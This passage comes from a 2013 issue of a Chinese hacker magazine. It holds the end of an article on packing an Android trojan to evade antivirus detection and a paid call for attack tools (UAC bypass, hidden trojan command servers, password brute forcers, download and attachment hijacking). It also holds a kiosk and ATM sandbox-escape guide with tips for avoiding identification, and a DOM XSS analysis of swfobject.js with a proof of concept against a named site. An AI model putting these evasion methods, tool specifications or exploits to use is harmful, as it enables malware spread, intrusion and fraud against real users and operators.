            members if members is not None and len(members) > 0 else self.filelist)

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='unpacks an APK that contains files which are wrongly marked as encrypted'
    )
    parser.add_argument('apk', type=str)
    parser.add_argument('file', type=str, nargs='*')
    args = parser.parse_args()
    apk = ApkFile(args.apk, 'r')
    apk.extractall(members=args.file)


```

接下来我们就用这个方法加密一个安卓小马，传到 360 和网秦的在线检测平台试试。  
小马样本传到 360 后，被识别；加密后上传未查出，如图 2 和图 3 所示。
图 2
图 3

小马样本上传到网秦后，同样被识别；加密后再传，提示安全，如图 4 和图 5 所示。
图 4
图 5

关于 APK 的免杀到此结束，这个方法目前还很有效，欢迎大家交流。

（完）

### 2013 年第 10 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 10 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 操作文件监控

说明：

- 支持软件：记事本、Office 2003、Office 2007、Adobe 文件格式；
- 通过监控用户创建或者打开的文件，如果发现存在 txt、doc、docx、xls、xlsx、ppt、pptx、pdf 等后缀文件则进行日志记录。

要求：

- 记录创建的 8 种文件格式（txt、doc、docx、xls、xlsx、ppt、pptx、pdf）的名称和路径；
- 文件的复制、新增、创建、删除都需要记录；
- 支持多国语言；
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 3. 多用户 3389 远程桌面登录

要求：

- Windows XP 和 Win7 默认只允许一个用户操作桌面。当远程桌面登录进去，就会将当前桌面切换为锁定状态。请实现多用户登录远程桌面，同时操作，互不影响；
- 至少支持两个用户同时登录；
- 支持 Windows XP、Win7 32 位和 64 位；
- 支持中英文；
- 使用 VC++2008 编译工具，编写成控制台程序，完美支持，无任何出错提示。

### 4. Avast 杀毒软件研究

Avast 杀毒软件会对第一次运行的陌生文件做出提示，研究如何绕过陌生文件提示的方法。
### 5. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求

10.10.0.0/16  
10.10.3.0/24  
10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求

可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

Tomcat　Weblogic　Jboss  
Apache　JOnAS　WebSphere  
Lotus Server　IIS(Webdav)　Axis2  
Coldfusion　Monkey HTTPD　Nginx

- 3）针对目标 Web 服务器后台扫描

针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解

搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 6. 木马控制端 IP 地址隐藏

要求：

- 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址；
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 7. 暴力破解密码

要求：

- 针对 3389 远程桌面、VNC、R-admin、PCAnywhere 暴力破解密码；

- 2）读取指定的用户名和密码字典文件；
- 3）采用多线程；
- 4）所有函数都必须判断错误值；
- 5）使用 VC++2008 编译工具实现，控制台程序；
- 6）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7）支持 Windows XP/2003/7/2008。

## 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账密暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交账密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账密；
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账密字典可自定义设置等。

## 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

## 10. CMD 下向指定 GHO 文件内写入文件

要求：

- 1）在 CMD 下，无 GUI 界面，向指定的 GHO 文件内写入数据；
- 2）GHO 文件为 XP、Win7 32/64 位的备份；
- 3）使用环境 XP、Win7 32/64；
- 4）修改好后，将 GHO 文件的修改时间还原为原来一样的；
- 5）开发环境 VC。

## 11. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 12. 邮箱附件劫持

说明：

编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

要求：

- 1）支持 Gmail、Hotmail、Yahoo 新版旧版、163、126。
- 2）支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

## 13. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

### 2013 征稿启事

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 Exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、Shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、Shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 Virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2）在稿件末尾请注明您的账户名、银行账号、以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另找他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4）稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5）根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：
- 6）稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系：投稿信箱：hadefence@gmail.com；编辑 QQ：675122680

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

# 《黑客防线》10期文章目录

总第 154 期 2013 年

### 漏洞攻防

- 终端机入侵方法总结（独猫）……2
- 一个常见通用 JS 文件的 domxss 分析（heikela）……5
- 实现 GHO 文件的“隐藏”修改（爱无言）……12
- CMSEasy Insert 注入漏洞（PaxMac.ywledoc）……14

### 编程解析

- 初探文件系统微过滤驱动（李旭昇）……18
- 智能输入法与隐私泄露（李旭昇）……23
- Windows 系统空间的页面管理（王晓松）……28

### 网络安全顾问

- 堡垒机绕过与防护方案（xysky）……33
- 实现 Linux 对隐藏模块的检测（unity）……41
- 无线监听窥秘实录（MOD）……43

### 密界寻踪

- 逆向“七雄军师”之旅（白金之星）……47
- 2013 年第 10 期杂志特约选题征稿……58
- 2013 年征稿启事……61

### 终端机入侵方法总结

图/文 独猫

第 9 期杂志发表了一篇入侵渗透终端机的文章，有朋友看过后说不错，想让我总结总结入侵终端机有哪些方法。我想了想且发现网上没有此类的文章，于是便有了此文。（终端机的设计原理参考 2013 年第 9 期黑防杂志文章《渗透校园转账终端机》。）

终端机的入侵基本原理其实就是跳出沙盒这一环节，只要跳出了沙盒，后续的一切就进入了“正轨”。既然是任何比显示页面更前更高的窗体就可跳出，下面我们就来总结一下本人所能想出来和曾经见别的大牛用过的所有方法和相应的注意事项。

## Windows/Linux 通用

- 1）邮件链接

这里并不是随便一个邮件地址都可以，而是可以打开超链接的邮件地址，也就是 HTML 中的“`<a href="mailto:admin@xxxxx.com">给我写邮件</a>`”类似这样的超链接。当点击链接时，如果系统有默认的邮件管理系统，就会跳出沙盒。

注意，不要点开过多管理页面，以防止有些软件做了打开次数限制，最好跳出后立刻关闭当前邮件管理器。

发生概率：★★★★★

- 2）拔网线或者拔电源（如果有的话）

看到这条方法一定以为我是在闹，或者在想这都能行？对，确实能行！把网线拔掉的话，系统可能会弹出提示气泡或者错误页面，更有可能直接跳出网络连接对话框，可以利用气泡或者错误页面或者错误对话框跳出沙盒。至于拔电源线，如果它有开机按钮或者你确定它能自动重启的话，那是最好，否则还是算了吧。我们可以在启动中趁它还没完全加载启动项，不进入沙盒或者跳出沙盒。以前很多人在 KTV 就是利用这种方法来控制选歌机的。

发生概率：★★☆

- 3）XSS 漏洞

这个需要耐心和技术。在网页上查找所有可以输入的地方，依次尝试是否存在 XSS 漏洞，如果有的话，就可以进行相应的代码插入，一个最简单的 `alert(1)` 就可直接让你看到桌面反射出的曙光。虽然看起来挺困难的，但是我就曾经看到过一个中国银行的 ATM 就有此漏洞。由于互联网的高速发展，智能终端机的功能越来越强大。当我们有常用符号按键的时候，恐怕终端机的安全度要大打折扣了。

发生概率：★★★★☆

- 4）输入错误数据或者程序自身错误

某些终端机沙盒在设计时对于输入的数据有报错提醒，可是如果报错方式不对，就可能引起更多的错误。比如见过一个移动话费充值机，在输入手机号的地方输入超过 11 位时会通过系统的 MessageBox 提示输入格式错误。这时的报错提醒为系统对话框的话，恐怕就直接跳出沙盒了。如果程序自身有些 BUG 能导致停止运行或者任何系统能检测出来的运行错误的话，只要能触发，同样也能跳出沙盒。

发生概率：★★★★☆

- 5）Flash 跳出

既然终端机里大多都是显示网页，那么经常出现在网页中的各种 Flash 就可能带来某些问题。有时候 Flash 会内嵌网页链接和某些可弹出对话框的地方，点击同样可以跳出。比如很多小游戏里面都有推广链接。

发生概率：★★★☆

- 6）长按弹出右键

有些终端机的触摸屏会设置为长按为右键，这时候对着一张图片或者某些地方长按弹出右键，点击“另存为”，在另存为对话框上“保存类型”改为“所有文件”，这时候就算不跳出沙盒，也可以找到所有可执行文件。

发生概率：★★★☆

由于 Linux 平台桌面环境有多种且版本众多，所以有些方法可能不适用于你要入侵的终端机。同样，有些适用于 Windows 平台的方法也可能适用于某些 Linux 平台。看起来我介绍的这些方法很多都是在“碰运气”，但实际上哪个成功的入侵案件没有所谓的“运气”呢？还是那句话：入侵的过程，总有你意想不到的事情发生；也正是这些意想不到的发生，才让成功入侵有了可能。

## Windows 平台

- 1）IE 浏览器上的某些图片

当用户用一定的频率“猛击”IE 浏览器内的没有超链接的图片时，IE 浏览器自带的图片高级对话框就自动显现了，如图 1 所示。你可以点击其中任何一个按钮，即可弹出优先级别更高的对话框，也就跳出了沙盒。注意：必须 IE6 且没有超链接，好在现在大部分 Windows 平台都是 XP + IE6。

发生概率：★★★★★
- 2）IP 地址冲突

对于任意版本的 Windows 操作系统，当同一个网络中出现两个相同的 IP 地址时，会自动弹出 IP 冲突对话框，如图 2 所示。这样，任务栏就现形了，跳出成功。要使用此方法，分两种情况：一是机器是有线连接的，不推荐使用，太显眼；二是无线网络，连接到它所在的无线网络，通过扫描端口等途径收集信息，最终确定其 IP，设置自己为相同。

发生概率：★★
- 3）万恶的屏幕键盘

不论是 Windows XP 还是 Windows 7，都带有系统键盘，如果终端机生产商偷懒了，直接采用系统的屏幕键盘，那么就可通过“选项”-“控制登录时候启动屏幕键盘”来弹出控制面板，之后就可以在有路径的地方，输入“c:”，就相当于打开了资源管理器，如图 3 所示。这里我以 Windows 7 为例，XP 类似。还有某些输入法，同样存在一些问题，比如帮助文档和设置里面，可能会有些潜在的“资源管理器”。

发生概率：★★★
图 3

- 4）悲催的硬件配置

我们都知道，Windows 平台在有些应用程序未响应的时候，会弹出一个对话框。这时候，如果终端机的硬件配置比较不入流，而且我们强行进行大量操作的话，就可能让应用程序未响应，这时候我们快速点击多个跳转或者其他类似的都可以跳出沙盒。

发生概率：★★

- 5）惊人的 USB 接口

有些 Windows 平台的终端机竟然会有裸露的 USB 口在外面，如图 4 所示。个人认为这是极为不合适的，不论是从维护性（容易损坏）和安全性考虑，都不应该将 USB 口裸露放在外面。但是现实总是充满了各种各样的惊喜，还是有某些 ATM 将 USB 口裸露在外且没关闭 Autorun 自动启动。这个就不用我再继续了，大家都明白的。但如果禁用了 Autorun，你可以随身带个 USB 免驱鼠标/键盘试试怎么样？

发生概率：★★☆
图 4

最后再给大家一点关于物理接触终端机的建议。首先你要保证自己的安全，最好带个口罩或者帽子啥的，别露“真相”。其次注意不要破坏终端机，同时别在人多的时候干，太显眼。最后，违法之事万万不可干！其实这些我们都知道，只是有时候头脑一热一激动就给忘了，但却可能给自己留下终生的遗憾！

## 一个常见通用 JS 文件的 domxss 分析

文/heikela

本文分析的 JS 文件是在国内被广泛使用的一个调用 Flash 文件的模板框架，下载地址为 https://code.google.com/p/swfobject/。国内多数网站都使用该文件，如 phpwind 系列，腾讯和搜狐等部分网站都会使用。以搜狐的 http://tv.sohu.com/voice/ 为例，调用了文件 http://tv.sohu.com/upload/static/special/voice/swf/swfobject.js，其调用代码如下：

```javascript
var swfVersionStr = "11.1.0";
var xiSwfUrlStr = "";
var flashvars = {};
var params = {};
params.quality = "high";
params.bgcolor = "#fff";
params.allowscriptaccess = "always";
params.allowfullscreen = "true";
var attributes = {};
attributes.id = "main";
attributes.name = "main";
attributes.align = "middle";
swfobject.embedSWF(
    "http://tv.sohu.com/upload/static/special/voice/swf/main.swf?" + new Date().getTime(), "flashContent",
    "100%", "130",
    swfVersionStr, xiSwfUrlStr,
    flashvars, params, attributes);
```

在 swfVersionStr 的版本大于浏览器的 Flash 版本时（在本例中就是小于 11.1.0 版本），在 IE 下构造语句“http://tv.sohu.com/voice/#b"></object>”即会触发 XSS。

该文件由于 2.2 版本做了一定的混淆不好辨认，我们分析 2.0 版，2.2 与 2.0 一样存在这个 domxss 问题。首先通过搜索特殊函数来确定文件有可能存在 domxss 问题，该 JS 文件确实存在输入点 location 和 outerHTML。

首先分析 ua 函数，代码如下：

```javascript
ua = function() {
    var w3cdom = typeof doc.getElementById != UNDEF && typeof doc.getElementsByTagName != UNDEF && typeof doc.createElement != UNDEF,
        u = nav.userAgent.toLowerCase(),
        p = nav.platform.toLowerCase(),
        windows = p ? /win/.test(p) : /win/.test(u),
        mac = p ? /mac/.test(p) : /mac/.test(u),
        webkit = /webkit/.test(u) ?
```

## Flash 版本检测与 hasPlayerVersion 分析

```javascript
parseFloat(u.replace(/^.*webkit\/(\d+(\.\d+)?).*$/, "$1")) : false, // returns either the webkit version or false if not webkit
ie = !+"\v1", // feature detection based on Andrea Giammarchi's solution:
http://webreflection.blogspot.com/2009/01/32-bytes-to-know-if-your-browser-is-ie.html
playerVersion = [0,0,0],
d = null;
if (typeof nav.plugins != UNDEF && typeof nav.plugins[SHOCKWAVE_FLASH] == OBJECT) {
    d = nav.plugins[SHOCKWAVE_FLASH].description;
    if (d && !(typeof nav.mimeTypes != UNDEF &&
    nav.mimeTypes[FLASH_MIME_TYPE] && !nav.mimeTypes[FLASH_MIME_TYPE].enabledPlugin)) {
        // navigator.mimeTypes["application/x-shockwave-flash"].enabledPlugin indicates whether
        // plug-ins are enabled or disabled in Safari 3+
        plugin = true;
        ie = false; // cascaded feature detection for Internet Explorer
        d = d.replace(/^.*\s+(\S+\s+\S+$)/, "$1");
        playerVersion[0] = parseInt(d.replace(/^(.*)\..*$/, "$1"), 10);
        playerVersion[1] = parseInt(d.replace(/^.*\.(.*)\s.*$/, "$1"), 10);
        playerVersion[2] = /[a-zA-Z]/.test(d) ?
        parseInt(d.replace(/^.*[a-zA-Z]+(.*)$/, "$1"), 10) : 0;
    }
}
else if (typeof win.ActiveXObject != UNDEF) {
    try {
        var a = new ActiveXObject(SHOCKWAVE_FLASH_AX);
        if (a) { // a will return null when ActiveX is disabled
            d = a.GetVariable("$version");
            if (d) {
                ie = true; // cascaded feature detection for Internet Explorer
                d = d.split(" ")[1].split(",");
                playerVersion = [parseInt(d[0], 10), parseInt(d[1], 10), parseInt(d[2], 10)];
            }
        }
    }
    catch (e) {}
}
alert(playerVersion);
return { w3:w3cdom, pv:playerVersion, wk:webkit, ie:ie, win:windows, mac:mac };
})();
```

该函数的返回值 return 的 `ua.pv` 是获取当前浏览器 Flash 版本的值，其格式为 `11,8,800`。下面继续分析 `hasPlayerVersion`，代码如下：

```javascript
function hasPlayerVersion(rv) {
    var pv = ua.pv, v = rv.split(".");
    v[0] = parseInt(v[0], 10);
    v[1] = parseInt(v[1], 10) || 0; // supports short notation, e.g. "9" instead of "9.0.0"
    v[2] = parseInt(v[2], 10) || 0;
    return (pv[0] > v[0] || (pv[0] == v[0] && pv[1] > v[1]) || (pv[0] == v[0] && pv[1] == v[1] && pv[2] >= v[2])) ? true : false;
}
```

该函数通过比较传递进来的 `rv` 值与当前机器的 Flash 版本的值来确定 Flash 版本，如果当前浏览器 Flash 版本大于 `rv` 所需求的版本即返回 `true`，而后面分析会知道当返回 `false` 时才会触发 XSS，也就是说需要浏览器的 Flash 版本低于 `rv` 所传递的版本就会触发漏洞。

## embedSWF 函数分析

我们继续分析 `embedSWF` 函数的作用，代码如下：

```javascript
embedSWF: function(swfUrlStr, replaceElemIdStr, widthStr, heightStr, swfVersionStr, xiSwfUrlStr, flashvarsObj, parObj, attObj, callbackFn) {
    var callbackObj = {success:false, id:replaceElemIdStr};
    if (ua.w3 && !(ua.wk && ua.wk < 312) && swfUrlStr && replaceElemIdStr && widthStr && heightStr && swfVersionStr) {
        setVisibility(replaceElemIdStr, false);
        addDomLoadEvent(function() {
            widthStr += ""; // auto-convert to string
            heightStr += "";
            var att = {};
            if (attObj && typeof attObj === OBJECT) {
                for (var i in attObj) { // copy object to avoid the use of references, because web authors often reuse attObj for multiple SWFs
                    att[i] = attObj[i];
                }
            }
            att.data = swfUrlStr;
            att.width = widthStr;
            att.height = heightStr;
            var par = {};
            if (parObj && typeof parObj === OBJECT) {
                for (var j in parObj) { // copy object to avoid the use of references, because web authors often reuse parObj for multiple SWFs
                    par[j] = parObj[j];
                }
            }
            if (flashvarsObj && typeof flashvarsObj === OBJECT) {
                for (var k in flashvarsObj) { // copy object to avoid the use of references, because web authors often reuse flashvarsObj for multiple SWFs
                    if (typeof par.flashvars != UNDEF) {
                        par.flashvars += "&" + k + "=" + flashvarsObj[k];
                    }
                    else {
                        par.flashvars = k + "=" + flashvarsObj[k];
                    }
                }
            }
            if (hasPlayerVersion(swfVersionStr)) { // create SWF
                var obj = createSWF(att, par, replaceElemIdStr);
                if (att.id == replaceElemIdStr) {
                    setVisibility(replaceElemIdStr, true);
                }
                callbackObj.success = true;
                callbackObj.ref = obj;
            }
            else if (xiSwfUrlStr && canExpressInstall()) { // show Adobe Express Install
                att.data = xiSwfUrlStr;
                showExpressInstall(att, par, replaceElemIdStr, callbackFn);
                return;
            }
            else { // show alternative content
                setVisibility(replaceElemIdStr, true);
            }
            if (callbackFn) { callbackFn(callbackObj); }
        });
    }
    else if (callbackFn) { callbackFn(callbackObj); }
},
```

执行到这里即可触发 XSS。

满足上面的条件，就可以执行到 `showExpressInstall(regObj)`，从而触发 DOM XSS。下面分析 `showExpressInstall(regObj)` 函数。

## showExpressInstall 函数分析

```javascript
function showExpressInstall(att, par, replaceElemIdStr, callbackFn) {
    isExpressInstallActive = true;
    storedCallbackFn = callbackFn || null;
    storedCallbackObj = {success:false, id:replaceElemIdStr};
    var obj = getElementById(replaceElemIdStr);
    if (obj) {
        if (obj.nodeName == "OBJECT") { // static publishing
            storedAltContent = abstractAltContent(obj);
            storedAltContentId = null;
        }
        else { // dynamic publishing
            storedAltContent = obj;
            storedAltContentId = replaceElemIdStr;
        }
        att.id = EXPRESS_INSTALL_ID;
        if (typeof att.width == UNDEF || (!/%$/.test(att.width) && parseInt(att.width, 10) < 310)) { att.width = "310"; }
        if (typeof att.height == UNDEF || (!/%$/.test(att.height) && parseInt(att.height, 10) < 137)) { att.height = "137"; }
        doc.title = doc.title.slice(0, 47) + " - Flash Player Installation";
        var pt = ua.ie && ua.win ? "ActiveX" : "PlugIn",
            fv = "MMredirectURL=" +
            encodeURI(window.location).toString().replace(/&/g, "%26") + "&MMplayerType=" + pt +
            "&MMdoctitle=" + doc.title; // 此处用到 window.location 会获取 URL 中的值
        if (typeof par.flashvars != UNDEF) {
            par.flashvars += "&" + fv;
        }
        else {
            par.flashvars = fv;
        }
        // IE only: when a SWF is loading (AND: not available in cache) wait for the
        // readyState of the object element to become 4 before removing it,
        // because you cannot properly cancel a loading SWF file without breaking
        // browser load references, also obj.onreadystatechange doesn't work
        if (ua.ie && ua.win && obj.readyState != 4) {
            var newObj = createElement("div");
            replaceElemIdStr += "SWFObjectNew";
            newObj.setAttribute("id", replaceElemIdStr);
            obj.parentNode.insertBefore(newObj, obj); // insert placeholder div that
            // will be replaced by the object element that loads expressinstall.swf
            obj.style.display = "none";
            (function() {
                if (obj.readyState == 4) {
                    obj.parentNode.removeChild(obj);
                }
                else {
                    setTimeout(arguments.callee, 10);
                }
            })();
        }
        createSWF(att, par, replaceElemIdStr); // 此处会使用相关参数
    }
}
```

该函数调用 `createSWF({ data:regObj.expressInstall, id:EXPRESS_INSTALL_ID, width:regObj.width, height:regObj.height }, { flashvars:fv }, replaceId)`，其中的 `{ flashvars: fv }` 参数是可控的，`fv = "MMredirectURL=" + win.location + "&MMplayerType=" + pt + "&MMdoctitle=" + dt`。

由于调用了 `createSWF`，所以我们继续分析 `createSWF` 函数。

## createSWF 函数分析

```javascript
function createSWF(attObj, parObj, id) {
    var r, el = getElementById(id);
    if (ua.wk && ua.wk < 312) { return r; }
    if (el) {
        if (typeof attObj.id == UNDEF) { // if no 'id' is defined for the object element,
            // it will inherit the 'id' from the alternative content
            attObj.id = id;
        }
        if (ua.ie && ua.win) { // Internet Explorer + the HTML object element + W3C DOM methods do not combine: fall back to outerHTML
            var att = "";
            for (var i in attObj) {
                if (attObj[i] != Object.prototype[i]) { // filter out prototype additions from other potential libraries
                    if (i.toLowerCase() == "data") {
                        parObj.movie = attObj[i];
                    }
                    else if (i.toLowerCase() == "styleclass") { // 'class' is an ECMA4 reserved keyword
                        att += ' class="' + attObj[i] + '"';
                    }
                    else if (i.toLowerCase() != "classid") {
                        att += ' ' + i + '="' + attObj[i] + '"';
                    }
                }
            }
            var par = "";
            for (var j in parObj) {
                if (parObj[j] != Object.prototype[j]) { // filter out prototype additions from other potential libraries
                    par += '<param name="' + j + '" value="' + parObj[j] + '" />';
                }
            }
            el.outerHTML = '<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000"' + att + '>' + par + '</object>'; // 此处调用了 outerHTML，输出为 HTML，从而导致了 XSS
            objIdArr[objIdArr.length] = attObj.id; // stored to fix object 'leaks' on unload (dynamic publishing only)
        }
    }
}
```

```javascript
r = getElementById(attObj.id);
}
else { // well-behaving browsers
    var o = createElement(OBJECT);
    o.setAttribute("type", FLASH_MIME_TYPE);
    for (var m in attObj) {
        if (attObj[m] != Object.prototype[m]) { // filter out prototype additions from other potential libraries
            if (m.toLowerCase() == "styleclass") { // 'class' is an ECMA4 reserved keyword
                o.setAttribute("class", attObj[m]);
            }
            else if (m.toLowerCase() != "classid") { // filter out IE specific attribute
                o.setAttribute(m, attObj[m]);
            }
        }
    }
    for (var n in parObj) {
        if (parObj[n] != Object.prototype[n] && n.toLowerCase() != "movie") {
            // filter out prototype additions from other potential libraries and IE specific param element
            createObjParam(o, n, parObj[n]);
        }
    }
    el.parentNode.replaceChild(o, el);
    r = o;
}
return r;
}
```

在该函数中，`el.outerHTML = '<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000"' + att + '>' + par + '</object>';`，par 参数是之前函数包含的 fv 参数，所以可以得到执行。  
综上所述，该 DOM XSS 可以执行的条件是，系统的 Flash 版本低于调用该 embedSWF 函数的要求版本。如果函数调用 `embedSWF(1,'tr1',3,4,"12.0.1",6,7,8,9)`，其中第 5 个参数是 Flash 版本的要求，那么所有系统 Flash 版本低于 12.0.1 的浏览器就可触发该 DOM XSS。  
最后给出触发该漏洞后的 POC，代码如下：

```html
<html>
<head>
<a id='tr1'></a>
<script type="text/javascript" src="1.js"></script>
<script>
var b = swfobject;
b.embedSWF(1,'tr1',3,4,"12.0.1",6,7,8,9); // 12.0.1 是要求的最低 Flash 版本
</script>
</head>
</html>


```

### 实现 GHO 文件的“隐藏”修改

文/图 爱无言

对于当今的电脑使用者来说，重做系统已不再像以往那样复杂，不需要使用繁杂的 fdisk 命令。安装一次系统往往需要耗费很长时间，现在只需要利用 Ghost 系统光盘，几分钟就可以将系统重新安装完毕，包括驱动程序、常用软件等。安装好系统后，用户还可以利用 Ghost 将当前系统进行备份，以后就不需要利用光盘进行系统安装，而是直接从备份中恢复系统，十分快捷方便。

这里的 Ghost 是赛门铁克公司开发的一款数据整体备份恢复软件，它所利用的机制其实很简单，但其最终备份出的系统数据格式即 GHO 文件却是一个未知格式的文件。如果想要修改或者打开，只能利用赛门铁克公司的 GhostExp 软件，该软件的运行界面如图 1 所示。
图 1 GhostExp 使用界面

